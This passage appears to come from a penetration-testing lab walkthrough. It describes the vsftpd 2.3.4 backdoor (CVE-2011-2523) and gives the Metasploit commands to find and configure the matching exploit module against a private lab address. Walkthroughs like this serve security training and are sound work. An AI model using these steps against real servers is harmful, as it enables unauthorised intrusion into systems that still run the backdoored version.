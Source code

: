 ![Alt text](images/Pasted%20image%2020250211191406.png)

vsftpd is prone to a backdoor vulnerability because the `vsftpd-2.3.4.tar.gz` source package file contains a backdoor (CVE-2011-2523). An attacker can cause the application to open a backdoor on port 6200 by logging to the FTP server with the username ':)'. We will try to find a vulnerability related to that service version in Metasploit. 

Run Metasploit in Kali:
```
msfconsole
```

```
search vsftpd
```

![Alt text](images/Pasted%20image%2020250211191707.png)

We know that there is an exploit for that protocol version. Let's exploit it!

---
# 2.2. Exploit the vulnerability

Select the exploit, set the parameters and check that all the options are correct:
```
use exploit/unix/ftp/vsftpd_234_backdoor
set TARGET 0
set RHOSTS 192.168.56.101
options
```
